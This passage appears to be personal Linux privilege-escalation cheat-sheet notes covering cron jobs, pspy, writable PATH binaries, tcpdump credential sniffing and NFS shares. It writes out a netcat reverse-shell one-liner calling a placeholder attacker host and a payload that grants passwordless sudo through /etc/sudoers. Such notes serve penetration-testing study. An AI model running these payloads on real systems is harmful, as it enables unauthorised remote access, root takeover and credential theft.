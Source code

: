 `cat /etc/crontab`

`grep "CRON" /var/log/syslog`

This reverse shell might be handy

`echo "rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc <ATTACKER_IP> <ATTACKER_PORT> >/tmp/f" >> <VULNERABLE_FILE>`

https://book.hacktricks.xyz/linux-hardening/privilege-escalation#scheduled-cron-jobs

pspy is a cool tool that let's you snoop running processes without needing root / admin privileges. We can run this to scan every second and try to determine if there are any cron job executions happening. It can do this by reading `procfs` at specified intervals.

https://github.com/DominicBreuker/pspy

```
target@hacked:~$ ./pspy64 -pf -i 1000       // 1000ms = 1sec
```

Cheeky payload that might help: `echo "USERHERE ALL=(ALL) NOPASSWD: ALL" >> /etc/sudoers` otherwise do reverse shell.

## System PATH

When we enter a program into the command line, the system will search PATH for executable binaries. Multiple exploit vectors here:
- Do we have write access to any programs/binaries in system PATH owned by root/higher privilege user
- Can the PATH itself be changed?

For example, if we can write to `/tmp` and it's already in/we have added this location to the system PATH then we can write a script e.g. in C to change user/group ID to root. Compile the source code to an object file, name this object file something e.g. 'kebab'. Enter `kebab` into command line and ggs.


## Passive Traffic Capture

If `tcpdump` is enabled, we can capture and analyse network traffic, which might include credentials, SNMP community strings or other secrets!

We can feed the output from tcpdump into other tools to examine the data on the wire:
- https://github.com/DanMcInerney/net-creds
- https://github.com/lgandx/PCredz

It may also be possible to capture Active Directory traffic like Net-NTLMv2, SMBv2 or Kerberos hashes.

Cleartext protocols like HTTP, FTP, SMTP, POP, IMAP, telnet etc. may also leak secrets.


## NFS

Port 2049, TCP and UDP.

We can review available shared mounts (shares) externally from our attacking machine via `showmount -e <TARGET>` - it's sorta like `smbclient` but for linux. 

